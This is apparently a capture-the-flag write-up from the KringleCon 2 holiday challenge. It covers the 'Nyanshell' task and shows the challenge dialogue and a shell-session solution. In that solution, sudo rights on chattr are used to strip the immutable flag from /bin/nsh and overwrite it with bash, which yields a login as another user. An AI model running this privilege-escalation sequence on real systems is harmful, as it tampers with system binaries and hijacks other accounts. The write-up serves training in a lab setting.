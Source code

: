 # 2. Secondary Objectives
## 2.7. Nyanshell
### 2.7.1. Description
Speaking with Alabaster Snowball:
>Every time I try to log in, I get accosted with ... a hatted cat and a toaster pastry? I thought my shell was Bash, not flying feline. When I try to overwrite it with something else, I get permission errors. Have you heard any chatter about immutable files? And what is sudo -l telling me?

Nyanshell motd:
```
░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░
░░░░░░░░░░▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄░░░░░░░░░
░░░░░░░░▄▀░░░░░░░░░░░░▄░░░░░░░▀▄░░░░░░░
░░░░░░░░█░░▄░░░░▄░░░░░░░░░░░░░░█░░░░░░░
░░░░░░░░█░░░░░░░░░░░░▄█▄▄░░▄░░░█░▄▄▄░░░
░▄▄▄▄▄░░█░░░░░░▀░░░░▀█░░▀▄░░░░░█▀▀░██░░
░██▄▀██▄█░░░▄░░░░░░░██░░░░▀▀▀▀▀░░░░██░░
░░▀██▄▀██░░░░░░░░▀░██▀░░░░░░░░░░░░░▀██░
░░░░▀████░▀░░░░▄░░░██░░░▄█░░░░▄░▄█░░██░
░░░░░░░▀█░░░░▄░░░░░██░░░░▄░░░▄░░▄░░░██░
░░░░░░░▄█▄░░░░░░░░░░░▀▄░░▀▀▀▀▀▀▀▀░░▄▀░░
░░░░░░█▀▀█████████▀▀▀▀████████████▀░░░░
░░░░░░████▀░░███▀░░░░░░▀███░░▀██▀░░░░░░
░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░

nyancat, nyancat
I love that nyancat!
My shell's stuffed inside one
Whatcha' think about that?

Sadly now, the day's gone
Things to do!  Without one...
I'll miss that nyancat
Run commands, win, and done!

Log in as the user alabaster_snowball with a password of Password2, and land in a Bash prompt.

Target Credentials:

username: alabaster_snowball
password: Password2
elf@e60e948135e9:~$
```
### 2.7.2. Solution
```
elf@e60e948135e9:~$ sudo -l
Matching Defaults entries for elf on e60e948135e9:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User elf may run the following commands on e60e948135e9:
    (root) NOPASSWD: /usr/bin/chattr
```
Trying to su to alabaster_snowball with `elf@e60e948135e9:~$ su alabaster_snowball` returns the below image:
![Nyancat](https://github.com/LamonatoAndrea/KringleCon2/blob/master/02%20-%20Secondary%20Objectives/07%20-%20Nyanshell/Nyancat.png)
```
elf@e60e948135e9:~$ cat /etc/passwd | grep alabaster
alabaster_snowball:x:1001:1001::/home/alabaster_snowball:/bin/nsh
elf@e60e948135e9:~$ xxd /bin/nsh  | head -n 1
00000000: 7f45 4c46 0201 0100 0000 0000 0000 0000  .ELF............
elf@e60e948135e9:~$ chattr -i /bin/nsh 
chattr: Permission denied while setting flags on /bin/nsh
elf@e60e948135e9:~$ sudo chattr -i /bin/nsh
elf@e60e948135e9:~$ dd if=/bin/bash of=/bin/nsh
2.7.+1 records in
2.7.+1 records out
1168776 bytes (1.2 MB, 1.1 MiB) copied, 0.00964688 s, 121 MB/s
elf@e60e948135e9:~$ su alabaster_snowball
Password: 
Loading, please wait......



You did it! Congratulations!

alabaster_snowball@e60e948135e9:/home/elf$
```
### 2.7.3. Afterwords
Speaking again with Alabaster Snowball:
>Who would do such a thing?? Well, it IS a good looking cat. Have you heard about the Frido Sleigh contest? There are some serious prizes up for grabs. The content is strictly for elves. Only elves can pass the CAPTEHA challenge required to enter. I heard there was a talk at KCII about using machine learning to defeat challenges like this. I don't think anything could ever beat an elf though!